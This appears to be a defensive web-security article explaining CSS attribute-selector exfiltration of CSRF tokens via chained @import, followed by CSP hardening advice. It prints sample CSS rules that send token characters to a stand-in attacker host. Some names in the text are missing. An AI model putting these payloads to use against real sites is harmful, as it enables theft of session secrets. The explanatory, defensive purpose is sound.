

## TL;DR

CSS attribute selectors cause browsers to fire network requests when a rule matches an element's value. Chained `@import` directives let an attacker reconstruct a full secret in a single page load, with no JavaScript executing. If your  doesn't restrict `style-src` to nonces, and your page has sensitive attribute values in the DOM, those values are exfiltrable through CSS alone.

---

Imagine a security review that concludes JavaScript injection is off the table. Your  tokens are in hidden inputs. Your CSP says `script-src 'none'`. You ship.

A few days later, CSRF tokens start appearing in an attacker's server logs. No JavaScript executed anywhere in the chain.

This is not a thought experiment. Two browser behaviours combine to create a working  channel: CSS rules that test attribute values and fire network requests on a match, and `@import` directives that browsers resolve synchronously during stylesheet loading. The victim visits once. One page load is enough to reconstruct a full token character by character.

The mental model that fails here is common: CSS injection is cosmetic at worst, a presentation-layer nuisance. Browsers do not share that assumption. When the renderer evaluates a selector against the DOM, it is computing. When that computation triggers a network request, it is communicating. CSS is not inert· it is a less obvious channel than script, but it is a channel.

---

## The primitive: attribute selectors as an oracle

CSS Selectors Level 3 introduced substring matching on attribute values. The `^=` (starts-with) operator is the building block of the attack.

Write one CSS rule per possible first character of a sensitive value, each firing a network request to a different URL:

```css
input[name="csrf"][value^="a"] {
  background-image: url(https://attacker.com/leak?char=a);
}
input[name="csrf"][value^="b"] {
  background-image: url(https://attacker.com/leak?char=b);
}
/* … 62 rules total: a–z, A–Z, 0–9 */
```

When Chrome renders this stylesheet against a page containing `<input name="csrf" value="a7f3d...">`, exactly one rule matches. The browser fires a GET to `attacker.com`. No event handler ran· no script was evaluated. The rendering engine resolved the selector and made the request as a side effect of applying styles.

This is documented, intentional browser behaviour described in the [MDN attribute selector reference](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors). The attack repurposes correct browser behaviour, not a bug.

### Beyond cosmetic impact

The standard mental model treats  as a cosmetic risk: an attacker changes button colours or hides content. The attribute-selector technique breaks this framing. Any HTML injection point that allows a `<style>` block is a potential information disclosure path when sensitive attribute values exist nearby in the DOM.

CSRF tokens in hidden `<input>` fields are the obvious target, but the primitive reaches further. Data attributes (`data-user-id`, `data-session-key`), `href` values in anchor tags, `value` attributes on `<select>` elements: if it lives in an HTML attribute, CSS can read it. If CSS can read it and trigger a request, an attacker controls the output.

The classic objection: this requires as many page loads as the token has characters. A 32-character CSRF token means 32 visits. In practice this feels impractical.

The `@import` chaining technique eliminates this constraint.

---

## @import chains: one visit, full reconstruction

When a browser encounters `@import` in a stylesheet, it fetches the imported sheet before continuing. This fetch blocks stylesheet processing· the cascade waits. An attacker-controlled server can exploit this synchrony to act as a state machine.

On the first load, the victim's page imports a stylesheet from the attacker's server. The server responds with rules probing the first character. When the browser fires the matching background-image request, the server records that character, then responds to the pending `@import` with a redirect to a fresh set of rules probing the second character. The browser follows the redirect and repeats.



The victim visits once. Every iteration runs inside that single page load, driven by the CSS cascade and the browser's willingness to follow redirect chains from `@import` responses.

### From proof of concept to active research

The same attribute-selector-triggers-request primitive appeared in a [widely circulated 2018 proof-of-concept](https://github.com/maxchehab/css-keylogging), which applied it to password fields in React-style applications and captured keystrokes without any JavaScript. The PoC attracted wide attention in the security community and showed the primitive was exploitable well before most practitioners took notice.

In December 2023,  published *Blind CSS Exfiltration*, which extends the technique to pages whose DOM structure the attacker does not know in advance. The innovation is the CSS `:has()` relational pseudo-class, now supported in all modern browsers:

```css
body:has(input[value^="a"]) {
  background-image: url(https://attacker.com/leak?char=a);
}
```

Rather than targeting `input[name="csrf"]` directly, which requires knowing the field's name, this selector fires whenever the body contains any input whose value starts with `a`. The attacker no longer needs to know the page structure ahead of time.

CVE-2026-2441 was a Chrome zero-day in the CSS engine, patched in Chrome 145 on February 13, 2026 and added to CISA's Known Exploited Vulnerabilities catalog. It reinforces the same lesson: the CSS layer is a live attack surface in production browsers.

---

## Why your CSP probably doesn't save you

Content Security Policy is the standard answer to injection attacks. A common production header looks like this:

```text
Content-Security-Policy: script-src 'none'; style-src 'self'
```

This blocks all JavaScript execution and permits only same-origin stylesheets. Developers who have deployed this configuration often consider injection risk managed.

The problem: `style-src 'self'` restricts which stylesheet *URLs* are permitted, not whether inline `<style>` blocks execute. An attacker who can inject HTML through a stored comment field or any input that echoes to the DOM can include a `<style>` block that the browser evaluates without restriction. The same-origin restriction is bypassed before it applies, because the injected block is inline, not an external URL.

### The WAF and sanitizer blind spot

 compound the problem. Most WAF rulesets identify threats by pattern-matching for `<script>` tags, JavaScript URLs, and event handler attributes like `onload=`. A `<style>` block containing CSS attribute selectors is not executable script· it passes through undetected.

 documents this explicitly: stored HTML injection resulting in a `<style>` block is routinely misclassified as low-severity or cosmetic. The classification is technically correct. It is irrelevant to whether data exits the page.

HTML sanitizers that allowlist "safe" elements frequently include `<style>` without restriction. The result is a clear chain: the WAF passes `<style>`, the sanitizer passes `<style>`, the CSP permits inline styles, the CSRF token is exfiltrated. No step flagged anything.

### The `unsafe-inline` trap

The  recommends against `style-src 'unsafe-inline'`, but frames the risk primarily in terms of visual manipulation and phishing. The exfiltration angle is underserved.

Any policy containing `style-src 'unsafe-inline'` is fully open to this attack class. An automated security scanner that grades your CSP as "good", with solid `script-src` and no eval, can still leave the style layer completely unguarded.

---

## What actually works

### Harden `style-src`

`style-src 'self'` is insufficient for any page that admits HTML injection. The correct policy for high-risk contexts (admin panels, checkout flows, anything with session tokens or sensitive form fields):

```text
Content-Security-Policy: style-src 'nonce-{random-per-request}'
```

A -based policy requires every `<style>` block and `<link rel="stylesheet">` to carry a matching attribute generated fresh on each server response. An injected `<style>` block without the correct nonce is blocked by the browser before it evaluates.

Two requirements make this work:

- The nonce must be cryptographically random (at least 128 bits of entropy)
- It must be regenerated on every response· a reused nonce is no control at all

For applications where inline styles are not required, `style-src 'none'` eliminates the attack class.

### Cut the exfiltration channel at `img-src`

Even if a malicious stylesheet loads, the exfiltration depends on outbound background-image requests reaching the attacker's server. The CSP `img-src` directive restricts where those requests can go:

```text
Content-Security-Policy: img-src 'self' data:;
```

Restricting `img-src` to same-origin severs the exfiltration channel as defence-in-depth. The stylesheet may still evaluate· the data cannot leave. Add a restrictive `connect-src` as well; some browsers route CSS `url()` fetches through connection tracking rather than image loading, so constrain both:

```text
Content-Security-Policy: style-src 'nonce-{token}'; img-src 'self' data:; connect-src 'self';
```

The [W3C CSP Level 3 specification](https://www.w3.org/TR/CSP3/) is the normative reference for how these directives interact.

### Reclassify HTML injection in your threat model

The most important change is conceptual. Every stored HTML injection point must be evaluated for CSS exfiltration risk, regardless of JavaScript context.

Don't apply the label "low severity, no script execution" to an injection point if sensitive attribute values exist in the adjacent DOM. An injection that permits `<style>` near a CSRF token, a session value, or any sensitive data attribute is a medium-to-high severity information disclosure finding.

This directly affects how you triage bug bounty reports and penetration test findings. Update the threat model for any sanitizer that allowlists `<style>`, alongside your CSP changes.

### Audit `unsafe-inline`

Locate every CSP header in your application containing `style-src 'unsafe-inline'`. Each one is fully open to this attack. Replace it with nonce-based policy:

```text
# Before — no protection against CSS exfiltration
Content-Security-Policy: default-src 'self'; style-src 'unsafe-inline'

# After — nonce-based, blocks injected styles
Content-Security-Policy: default-src 'self'; style-src 'nonce-{token}'
```

The  has practical header construction guidance for each directive.

---

## The gap is awareness

The attribute-selector exfiltration primitive has been in public security research since 2018. Gareth Heyes published the blind exfiltration extension using `:has()` in December 2023. The  documents the attack class. None of this is obscure.

The gap is not the technique· attackers have had this for years. The gap is that most web developers have not updated their threat model to include the style layer.

Two questions should now replace the single old one when you evaluate an HTML injection point:

- Old: *Can this execute script?*
- New: *Can this load a stylesheet? Are there sensitive attribute values in the DOM near this point?*

Audit your CSP headers today. Wherever `style-src 'self'` or `style-src 'unsafe-inline'` sits in front of a page that handles sensitive values, you have work to do.

---

## Further reading

-  — original research on `:has()` for blind exfiltration (December 2023)
-  — OWASP attack reference for CSS injection
-  — structured coverage with interactive lab exercises
- [CSS Attribute Selectors — MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors) — full specification reference for the `^=` operator
- [Content Security Policy Level 3 — W3C](https://www.w3.org/TR/CSP3/) — normative specification defining `style-src`, `img-src`, and `connect-src` semantics
- [css-keylogging PoC — maxchehab](https://github.com/maxchehab/css-keylogging) — 2018 proof-of-concept applying the same primitive to password field keystroke capture
